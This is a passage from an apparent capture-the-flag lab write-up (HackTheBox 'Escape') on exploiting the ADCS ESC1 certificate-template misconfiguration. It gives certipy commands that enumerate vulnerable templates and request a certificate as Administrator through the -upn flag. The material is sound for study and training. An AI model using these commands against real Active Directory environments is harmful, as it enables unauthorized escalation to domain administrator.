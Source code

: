 As we can see here, permissions for template **UserAuthentication** is set to **GenericAll** which means every domain user can request a ticket using that template. So, our goal here would be to request a ticket of _Administrator_ and then use it to authenticate as _Administrator_. This misconfigured certificate template is often noted as **ESC1** 


# Exploiting ADCS ESC1
We can choose different tools for this task. The procedure is identical, the only difference is that one method needs an executable or two on the victim machine and the other method doesn't need any file. Both of these tools can also be used to enumerate AD certificate services so I'll also include how do we use these tools to enumerate.

## certipy
`certipy` is a command-line tool for enumerating and exploiting **Active Directory Certificate Services**. We can get it either from their [GitHub Repository](https://github.com/ly4k/Certipy) or install it with our package installer - 
```bash
sudo apt-get update
sudo apt install certipy-ad
```

We can use `certipy` to enumerate the vulnerable certificates like this -
```Certipy
certipy find -u Ryan.Cooper@escape.htb -p '$$PASSWORD HERE$$' -dc-ip 10.10.11.202 -vulnerable -stdout
```
Here's the output -
![Enumerating with certipy-ad](Images/certipy-find.png)
If we didn't use `-stdout` flag, we'll get 3 files instead, a plaintext `.txt` file, a `JSON` file and a `zip` to be used for `BloodHound`. From these outputs, we'll get template name, certificate authorities' names which will be needed for the next step.
```
Template Name            => UserAuthentication
Certificate Authorities  => sequel-DC-CA
DNS Name                 => dc.sequel.htb
```

We'll use use `req` command to request a new certificate for _Administrator_ using the informations we got from the last step.
```Certipy
certipy req -username Ryan.Cooper@sequel.htb -password $$PASSWORD HERE$$ -ca sequel-DC-CA -template UserAuthentication -target dc.sequel.htb -upn administrator@sequel.htb
```
What this command does is that it requests a new certificate for another user supplied by `-upn`(User Principal Name) flag from the DC using the certificate template that's misconfigured, which is **UserAuthentication** in our case.
